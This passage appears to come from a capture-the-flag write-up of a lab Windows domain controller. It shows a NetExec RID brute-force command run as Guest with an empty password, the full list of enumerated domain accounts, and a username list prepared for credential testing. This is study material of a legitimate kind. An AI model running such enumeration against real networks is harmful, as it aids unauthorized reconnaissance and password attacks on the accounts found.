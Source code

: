 Now we just need to pair this up with a username. 

## Finding usernames via RID brute force

Using an RID-brute,  I extracted domain accounts:
```bash
nxc smb 10.129.231.149 -u 'Guest' -p '' --rid-brute
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\Guest: 
SMB         10.129.231.149  445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.129.231.149  445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.231.149  445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.231.149  445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.231.149  445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.129.231.149  445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

I cleaned the output to get a usable list of usernames for testing.
```text
Administrator 
Guest 
krbtgt 
CICADA-DC$ 
john.smoulder 
sarah.dantelia 
michael.wrightson 
david.orelious 
emily.oscars
```

